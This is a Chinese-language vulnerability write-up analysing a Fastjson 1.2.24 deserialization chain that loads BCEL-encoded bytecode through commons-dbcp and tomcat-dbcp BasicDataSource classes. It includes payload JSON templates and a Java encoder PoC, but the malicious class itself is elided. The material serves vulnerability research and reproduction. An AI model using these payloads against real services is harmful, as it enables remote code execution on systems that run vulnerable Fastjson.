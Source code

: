 # Fastjson1.1.15-1.2.4与BCEL字节码加载

## 依赖

单纯为了复现罢了

```xml
<dependency>
    <groupId>com.alibaba</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.2.24</version>
</dependency>
<dependency>
    <groupId>commons-dbcp</groupId>
    <artifactId>commons-dbcp</artifactId>
    <version>1.4</version>
</dependency>
```

## 分析

漏洞利用点在`org.apache.commons.dbcp.BasicDataSource`这个类

我们也知道在执行parseObject时，会调用类中所有get方法，这很关键

正菜开始，在`org.apache.commons.dbcp.BasicDataSource#createConnectionFactory`中有

![](img/1.png)

看到这个else分支，便知道我们可以自定义类加载器去加载字节码，并且这两个参数都存在set方法，参数可控

![](img/2.png)![](img/3.png)

接下来我们就来看看是否在某个get或set方法当中能触发到这个关键，看到`createDataSource`调用了`createConnectionFactory`![](img/4.png)

可以看到`getConnection`又调用了`createDataSource`

![](img/5.png)

是个get方法，那好办了

调用栈也就出来了

![](img/6.png)

因此我们只需要构造出类似下面的payload即可

```json
{"@type":"org.apache.commons.dbcp.BasicDataSource","driverClassName":"$$BCEL$$XXXXXX","driverClassLoader":{"@type":"org.apache.bcel.util.ClassLoader"}}
```

分析完毕，顺便分享自己生成BCEL字节码的poc

```java
package bcell;

import com.mchange.v2.io.FileUtils;
import javassist.ClassPool;
import org.apache.bcel.classfile.Utility;


public class bcelEncode {
    public static String bcelEncode(String classFile) throws Exception {

        return "$$BCEL$$" + Utility.encode(ClassPool.getDefault().get(classFile).toBytecode(), true);
    }

    public static void main(String[] args) throws Exception{
        System.out.println(bcelEncode("bcell.TestBCELClass"));;
    }
}
```

## Other
```xml
<dependency>
    <groupId>org.apache.tomcat</groupId>
    <artifactId>dbcp</artifactId>
    <version>6.0.53</version>
</dependency>
```
这个依赖也一样不过有一点点改变
```xml
{
        "@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
        "driverClassLoader": {
            "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
        },
        "driverClassName": "$$BCEL$$$l$8b......"
}
```
